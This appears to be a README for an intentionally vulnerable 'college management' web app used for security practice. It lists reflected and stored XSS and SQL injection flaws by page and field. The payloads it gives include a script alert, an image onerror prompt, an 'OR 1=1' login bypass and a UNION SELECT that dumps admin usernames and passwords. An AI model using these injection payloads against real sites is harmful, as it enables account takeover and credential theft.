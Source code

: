 # basic collage management 
is a vuln web site to XSS and SQLi

## XXS
### reflected XSS
> reflected XSS found in **all_students.php page at search function** 
> u can use `?search=<image%20src=s%20onerror=prompt(8)>` as a payload to test the vuln

### sotred XXS
> stored XSS found in **add_student.php page at Address field** 
> u can insert `<script>alert(2);</script>` in Address field as a payload 
> to test the vuln go to **all_students.php page** 


----------------------------------------------------------------


## SQLi

### SQLi Subverting application logic
> SQLi found in **login-page.php page at username field**
> u can insert `admin' -- -` or `admin' OR '1'='1 -- -` in username field as a payload if having a previuos knowloadege of user **admin** 


### UNION SQLi
> UNION SQLi found in **profile.php page through GET Parameter**
> u can inswer `/profile.php?id=' UNION SELECT username,password,NULL,NULL FROM admin where id = 'ID' -- -` in the url field as a payload. **ID = 1,2...**

